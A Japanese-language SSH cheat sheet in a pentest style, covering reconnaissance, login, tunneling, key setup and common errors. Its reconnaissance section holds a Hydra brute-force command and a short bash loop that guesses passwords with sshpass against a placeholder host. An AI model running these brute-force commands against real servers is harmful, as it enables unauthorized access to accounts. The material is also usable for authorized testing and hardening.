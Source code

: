 # SSH（Secure Shell）概要と使い方

### 概要
SSHは、ネットワーク経由でリモートシステムに安全にアクセスするためのプロトコルです。暗号化された接続を使用して、リモートシェルの取得やコマンドの実行、ファイル転送などを行います。通常、22番ポートを使用します。

### セキュリティ上の注意点
- **強力な認証**: パスワード認証よりも公開鍵認証の使用が推奨されます。公開鍵認証は、より高いセキュリティを提供します。
- **パスワードの複雑さ**: SSHサーバーに強力で複雑なパスワードを設定し、ブルートフォース攻撃を防ぎます。
- **不正アクセスの防止**: 不要なユーザーアカウントやグループの削除、SSH設定の最適化（例: rootログインの無効化）を行います。

## 偵察

#### Nmapを使用したSSHサーバーの偵察
SSHサーバーの詳細情報を取得し、脆弱性を調査するための基本的な手順です。

```bash
# 1. SSHサービスのバージョン検出
nmap -sV -p 22 ssh.example.com

# 2. SSH特有のスクリプトを使用して脆弱性をチェック
nmap --script ssh-hostkey -p 22 ssh.example.com
```

#### SSHブルートフォース攻撃
SSHサーバーに対してブルートフォース攻撃を行い、認証情報を試す方法です。

```bash
# Hydraを使用したSSHブルートフォース攻撃
hydra -l username -P /path/to/passwordlist.txt ssh://ssh.example.com
```

- **-l**: 単一のユーザー名を指定します。
- **-P**: パスワードリストファイルを指定します。


#### SSHブルートフォーススクリプト
SSHサーバーに対してブルートフォース攻撃を行うための簡単なスクリプトです。

```bash
# パスワードリストを使用してブルートフォース攻撃
for password in $(cat /path/to/passwordlist.txt); do
    echo "Trying password: $password"
    sshpass -p "$password" ssh -o StrictHostKeyChecking=no user@ssh.example.com exit
    if [ $? -eq 0 ]; then
        echo "Password found: $password"
        break
    fi
done
```

- **sshpass**: パスワードを自動的に提供するツールです。
- **-o StrictHostKeyChecking=no**: ホストキーの確認を無効にします。

#### `ssh-keyscan`ツール
SSHサーバーの公開鍵を収集するためのツールです。サーバーの鍵を検証するのに役立ちます。

```bash
# SSHサーバーの公開鍵を収集
ssh-keyscan ssh.example.com
```

- **ssh-keyscan**: SSHサーバーから公開鍵を取得します。

#### `ssh-keygen`ツール
SSH鍵ペアを生成するためのツールです。公開鍵認証の設定に使用されます。

```bash
# 新しいSSH鍵ペアを生成
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
```

- **-t rsa**: RSA鍵の生成を指定します。
- **-b 2048**: 鍵のビット数を指定します。
- **-f**: 鍵ファイルの出力先を指定します。

## ログイン

#### SSH接続の確立
SSH接続を確立し、リモートシステムにアクセスします。

```bash
# SSH接続を確立
ssh user@ssh.example.com

# 特定の秘密鍵を使用して接続
ssh -i /path/to/private_key user@ssh.example.com
```

- **user**: SSH接続先のユーザー名を指定します。
- **ssh.example.com**: 接続先のホスト名またはIPアドレスを指定します。
- **-i**: 使用する秘密鍵ファイルを指定します。

## ログイン後

#### SSH設定ファイルの確認
リモートサーバーのSSH設定ファイルを確認し、セキュリティ設定を調査します。

```bash
# SSH設定ファイルの確認
cat /etc/ssh/sshd_config
```

- **/etc/ssh/sshd_config**: SSHデーモンの設定ファイルです。

#### 公開鍵認証の設定
SSH公開鍵認証の設定を行い、認証のセキュリティを強化します。

```bash
# 公開鍵をリモートサーバーにコピー
ssh-copy-id user@ssh.example.com
```

- **ssh-copy-id**: ローカルの公開鍵をリモートサーバーのauthorized_keysに追加します。

#### SSHトンネリングの使用
SSHトンネルを使用して、安全に他のサービスにアクセスします。

```bash
# ローカルポートフォワーディングの設定
ssh -L local_port:remote_host:remote_port user@ssh.example.com

# ダイナミックポートフォワーディングの設定
ssh -D local_port user@ssh.example.com
```

- **-L**: ローカルポートフォワーディングを設定します。
- **-D**: ダイナミックポートフォワーディングを設定します。

### エラー

#### Permission denied, please try again
認証に失敗したことを示します。

- **原因**: ユーザー名やパスワードが間違っている、または公開鍵がサーバーに設定されていない可能性があります。
- **対処法**: 認証情報を再確認し、正しい公開鍵がサーバーに設定されているか確認します。

#### Connection refused
SSHサーバーへの接続が拒否されたことを示します。

- **原因**: SSHサーバーが稼働していない、またはファイアウォールによって接続がブロックされている可能性があります。
- **対処法**: SSHサーバーが稼働しているか確認し、ファイアウォールの設定をチェックします。
```
